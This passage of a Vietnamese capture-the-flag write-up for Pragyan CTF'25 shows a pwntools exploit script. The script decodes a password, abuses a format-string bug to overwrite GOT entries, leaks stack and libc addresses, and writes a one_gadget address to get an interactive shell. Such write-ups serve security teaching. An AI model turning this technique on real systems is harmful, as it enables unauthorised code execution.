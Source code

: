 ```python
        else:
            orig_byte = xor_decoded  # Không thay đổi ký tự khác

        decrypted_bytes.append(orig_byte)

    return decrypted_bytes

# Thông tin từ chương trình (dữ liệu đã mã hóa dưới dạng bytes)
encoded_bytes = b"cLVQjFMjcFDGQ"  # Chuỗi cần giải mã dưới dạng bytes
caesar_key = 10
xor_key = 0x35  # Cập nhật XOR key mới

# Giải mã
password = decrypt(encoded_bytes, caesar_key, xor_key)

p.sendlineafter(b'>>> ',password)

system_got = 0x404018
pl1 = b'%5423c%8$hn'
pl1 = pl1.ljust(16,b'a')
pl1 += p64(system_got)

p.sendline(pl1)

p.sendlineafter(b'>>> ',password)
p.sendline(b'|%24$p|%53$p|')
p.recvuntil(b'|')
leak_stack = int(p.recvuntil(b'|')[:-1],16) - 0x18
print(hex(leak_stack))
libc.address = int(p.recvuntil(b'|')[:-1],16) - 0x29d90
log.info(f'leak libc: {hex(libc.address)}')

og = [0xebc81,0xebc85,0xebc88,0xebce2,0xebd38,0xebd3f,0xebd43]
print(og)
write = {
    0x404020:og[1]+libc.address
}
payload = fmtstr_payload(6,write)

p.sendlineafter(b'>>> ',password)
input()
p.sendline(payload)


p.interactive()
```

- tuy nhiên cuối cùng tác giả lại bảo là flag trong file PDF .....

![image](/assets/images/Pragyan%20CTF'25/7.png)
